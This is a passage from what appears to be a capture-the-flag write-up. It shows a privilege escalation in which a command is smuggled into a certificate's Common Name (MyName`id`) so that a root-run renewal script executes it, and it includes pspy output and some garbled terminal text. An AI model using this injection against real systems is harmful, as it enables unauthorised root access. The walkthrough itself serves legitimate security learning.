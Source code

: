 I thought I might be able to use some of the information it read from the original certificated to get code execution. But I had to find out how the script ran. I uploaded `pspy` to the server and ran it.

```bash
2023/01/29 18:30:01 CMD: UID=0     PID=1462   | /bin/bash /root/cron.sh
2023/01/29 18:30:01 CMD: UID=0     PID=1463   | timeout 10 /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt
```

The script was running as root, and reading the certificate in `/home/bill/Certs/broscience.crt`.

I used the command in the script to generate certificates that expired in one day. I played with the different values it read from the certificate before generating a new one and found that I could get code execution in the common name when the file was moved.

```bash
bill@broscience:/tmp/tmp.ML5bZVF2Ow$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout temp.key -out temp.crt -days 1 <<<"CA
QC
MTL
someOrg
Unit
MyName\`id\`
test@test.com
"
Generating a RSA private key
.++++
................................................................................++++
writing new private key to 'temp.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:State or Province Name (full name) [Some-State]:Locality Name (eg, city) []:Organization Name (eg, company) [Internet Widgits Pty Ltd]:Organizational Unit Name (eg, section) []:Common Name (e.g. server FQDN or YOUR name) []:Email Address []:bill@x509 -noout -text -in temp.crt | lessut temp.key -out temp.crt -days 1 <<<"CA

bill@broscience:/tmp/tmp.ML5bZVF2Ow$ cp temp.crt /home/bill/Certs/broscience.crt

bill@broscience:/tmp/tmp.ML5bZVF2Ow$ /opt/renew_cert.sh /home/bill/Certs/broscience.crt
C = CA, ST = QC, L = MTL, O = someOrg, OU = Unit, CN = MyName`id`, emailAddress = "test@test.com "

Country     => CA
State       => QC
Locality    => MTL
Org Name    => someOrg
Org Unit    => Unit
Common Name => MyName`id`
Email       => test@test.com

Generating certificate...
mv: target 'groups=1000(bill).crt' is not a directory
```
